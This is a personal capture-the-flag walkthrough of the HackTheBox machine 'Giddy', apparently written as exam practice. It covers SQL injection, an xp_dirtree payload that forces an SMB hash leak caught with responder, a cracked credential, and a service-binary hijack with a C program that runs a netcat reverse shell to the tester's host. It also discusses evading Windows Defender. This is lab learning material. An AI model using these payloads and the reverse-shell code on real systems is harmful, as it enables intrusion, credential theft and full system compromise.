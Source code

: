 # Giddy Walkthrough

Name: Giddy
Date:  8/5/2023
Difficulty:  Medium
Better Description:  
Goals:  OSCP Prep - Ippsec handholding to feel mentored
Learnt:
- Icacls is power
- I was really harsh on my self on trying this solo without looking at this and returning to this really the only issue is - SQLmap could havbe been used and in the real world it would have been.
- I was way too hard on myself when it was not my fault.
- Visual Studio 
- Building C Sharp project
- Wrestling with DotNet versions
- Infrastructure
- I forget my C roots ...I should return to C 

First the video is three years old and more tools are avaliable to me than to him way back then.

<iframe width="560" height="315" src="https://www.youtube.com/embed/J2unwbMQvUo" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

![faceofmadness](Screenshots/faceofmaddness.png)
*"Stare into face of unknowable joy, absolute blankness and pure madness... the man that tried not using SQLmap...waiting for the Boolean to say if 1 of 10s of characters was correct."*

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Giddy/Screenshots/ping.png)

My returning ping for documentation
![](newping.png)

Having fun on attempt speed run without realising that this had responder in it and massive red flag for me generally as on the OSCP you do not need to ever you responder.
![](nmapunderstanding.png)

Added 
```bash
echo '10.129.96.140 giddy' | sudo tee -a /etc/hosts
```

![view-cert](Screenshots/view-cert.png)

Check the details! On return I found this
![](testpowershell.png)

Directory busting with feroxbuster:
![mvc](Screenshots/mvc-dir.png)

The remote page is exposed
![](furtherinspection.png)

I am proud of my enumeration now, but at the time I 3dissapointed.
![](gbtotheremote.png)

Checking out the main mvc product pagew
![](mvc.png)

SQLmap was consider on my second attempt as it is a no-use in OSCP exam...
![](andcommentreturnseverything.png)

Went to the page /mvc/Search.aspx and insta-search for`'`:
![sqlerror](Screenshots/sql-error.png)

![](sqliinjection.png)
I found the second time. 
![](sqliinjection.png)

One thing not noticed in the video `C:\Users\jnogueira\Downloads\owasp10\1-owasp-top10-m1-injection-exercise-files\before\1-Injection\Product.aspx.`
Ippsec demonstrated a more through methodology of testing for `--` aswell to see if it causes an error. Not using `sqlmap` till I finish OSCP.. so I tried it as this box is not on OSCP pwnlist got with id-sqli.req: 

![1080](id-sqli.png)

The union query is nuts and my guess is that an OSCP exam machine is not going to break you with statement that 3 lines long like this.
![](bigrequest.png)


## Exploit

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

![catching](ncat.png)

```bash
responder -I tun0
```

![stacy](hashcapture.png)

Paused video to see if I could try pass the hash. I could not.

![cracked](cracked.png)

```
xNnWo6272k7x
```


## Foothold

Then from the `/remote` with: `giddy\stacy ; xNnWo6272k7x ; giddy`
![](unifivideo.png)

## PrivEsc

This directory is writable, see the 43390.txt poc.
![](icacls-unifi-video.png)

![msfail](xcopythemsfshell.png)

But..
![wd](windowsdefendstrikesagain.png)
Windows Defender removes it... 

Then I went on a research spree on C Sharp, Undetectable C sharp Reverse Shells and the best Windows-OS VM for ethical hacking for Archive. Returning months later I tried soloing this for a writeup and did not realise that I would really need SQLmap for this machine and then would have need Responder with `xp_cmdshell` so I am proud that I got as far as I did, but it also as a hindsight issue indicative of why some machines are bad for you the time for your growth and psychology. I actually crush the enumeration of the machine it is just blocked by tool usage that is not OSCP-related. Secondly I was really hard on myself with SQLinjection. The actual UNION based injection is three lines long and the other are blind and time-based so by all account the SQLi is one that you would only really get on a real assessment if you used SQLmap, because from all I have heard who actually has the time to do SQLi of that complexity on a time crunch without SQLmap in the 2020s.

![](simplerevshell.png)

Original I just open the file as you may be able to tell as I am not a .NET developer yet I have very, very miminal usege of Visual Studio. I spent more time building the install than using it at this point.  

1. Modify Ip address
2. `File -> Save` - Save your work

Create new Project
`Create NewProject  -> Console App -> Name`

Lose the Solution Explorer?
`Debug -> $nameofproject Debug Properties` at the very bottom of the drop down.

![](actuallybetter.png)

Change Target Framework, because...
`[Right Click]` the `[C#] $projectname` in `Solution Explorer` go to `Properties -> Target Framework`

Compile 
`Build -> Build Solution` 

[Overide the  Language Version](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/configure-language-version), because...
- Manually edit your [project file](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/configure-language-version#edit-the-project-file).
- Set the language version [for multiple projects in a subdirectory](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/configure-language-version#configure-multiple-projects).
- Configure the [**LangVersion** compiler option](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/language#langversion).

I decided given my history with wrestling with applications to try the known good of Golang Reverse shell in place of Taskkill.exe
```powershell
impacket-smbserver share $(pwd)
# Copy 
xcopy \\10.10.14.17\share\taskkill.exe .
# List a Service with the Registry 
set-location 'HKLM:\SYSTEM\CurrentControlSet\Services'
get-childitem . # gci .
get-childitem . | select name
get-childitem . | where-object { $_.Name -like '*UniFiVideoService*'}
```

![](copyxgoshell.png)

Nope, but close
![](nopebutclose.png)
This did not work and fumbling with Visual Studios was not fun, but I try again today.  Quick reading [0xdf](https://0xdf.gitlab.io/2019/02/16/htb-giddy.html#privesc-to-system) for context to finish machine as soon as possible bypassed Defender he opted for a [Ebowla](https://github.com/Genetic-Malware/Ebowla) to obscucate a msfvenom payload, which seems very last decade and need to sort out my C(#/++) building workflow and infrastructure. An eternity later... 

Although I know I did not use .NET 4.5 or below I had hard time so I just tried with .NET 7.0 just for the sake of my workflow.
![](saidtryondotnet7.png)

Given the fact I do not want to read hour of Visual Studio documentation if it change every year and some C sharp tool maybe ellispsed as all thing security given restriction of the monsters of insecurity Microsoft have made.

```powershell
Stop-Service "Uniquiti UniFi Video"
Start-Service "Ubiquiti UniFi Video"
Stop-Service "Uniquiti UniFi Video"
```

![](snowscan-ncandc.png)

Snowscan another top 10 HTB player (again simple solution is - like xct it always simplist first) is a program that runs nc.exe.  

```c
//#include "stdafx.h" speeds up compile time 
#include "stdlib.h"
// i686-w64-mingw32-gcc shell.c -o shell.exe

int main()
{
    system("nc.exe -e cmd.exe 10.10.14.23 4444");
    return 0;
}
```

Challenge now mingwc our way to success without knowing the exact version I think... So 
```bash
# Signin because timeout `giddy\stacy ; xNnWo6272k7x ; giddy`
i686-w64-mingw32-gcc shell.c -o /tmp/taskkill.exe
cp /usr/share/windows-resources/binaries/nc.exe /tmp/nc.exe
cd /tmp 
impacket-smbserver share $(pwd)
# Copy both
xcopy \\10.10.14.17\share\taskkill.exe .
xcopy \\10.10.14.17\share\nc.exe .

Start-Service "Ubiquiti UniFi Video"
Stop-Service "Uniquiti UniFi Video"
```

The power of C!
![](snowscanisawesome.png)

